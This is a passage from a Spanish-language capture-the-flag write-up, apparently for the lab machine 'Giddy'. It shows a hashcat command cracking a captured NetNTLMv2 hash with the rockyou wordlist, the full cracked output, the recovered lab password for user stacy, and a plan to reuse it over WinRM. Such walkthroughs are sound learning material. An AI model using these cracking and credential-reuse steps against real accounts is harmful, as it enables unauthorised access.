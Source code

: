 Usando Hashcat, rompemos la hash que acabamos de obtener. El diccionario usado fue rockyou.

``` text
xbytemx@laptop:~$ hashcat -a 0 -m 5600 "Stacy::GIDDY:1122334455667788:B9F9548A74894D13A0FC9DCCAD19ED75:0101000000000000300341DE69C5D401E59EA796893B59570000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000E520622AF481D040F54B36E7D48F871AAABD6B2FEF077311B50C0859DD35C8A90A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310033002E003100320031000000000000000000" ~/wl/rockyou.txt
...
STACY::GIDDY:1122334455667788:b9f9548a74894d13a0fc9dccad19ed75:0101000000000000300341de69c5d401e59ea796893b59570000000002000a0053004d0042003100320001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d004200310032000800300030000000000000000000000000300000e520622af481d040f54b36e7d48f871aaabd6b2fef077311b50c0859dd35c8a90a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310033002e003100320031000000000000000000:xNnWo6272k7x

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
Hash.Target......: STACY::GIDDY:1122334455667788:b9f9548a74894d13a0fc9...000000
Time.Started.....: Fri Feb 15 14:13:35 2019 (3 secs)
Time.Estimated...: Fri Feb 15 14:13:38 2019 (0 secs)
Guess.Base.......: File (/home/xbytemx/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   816.2 kH/s (4.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2691072/14344384 (18.76%)
Rejected.........: 0/2691072 (0.00%)
Restore.Point....: 2686976/14344384 (18.73%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: xamula -> x21blfam

Started: Fri Feb 15 14:13:25 2019
Stopped: Fri Feb 15 14:13:40 2019
```

# Creds

Las credenciales de stacy son:

> stacy / xNnWo6272k7x

# Logging as stacy

Aquí comenzó la travesía mas incomoda, ya que se podía acceder a la maquina por el portal de remote, pero estaba limitado a dos sesiones para stacy, por lo que había que esperar a que se soltara la sesión. Esto me llevo a buscar alternativas y me encontré con una bastante coqueta, usar una instancia de docker con powershell modificado para correr PSSesion soportando autenticación sobre NTLM. Esto es bastante ventajoso, ya que como recordamos el puerto WinRM, 5985/tcp, se encuentra abierto.

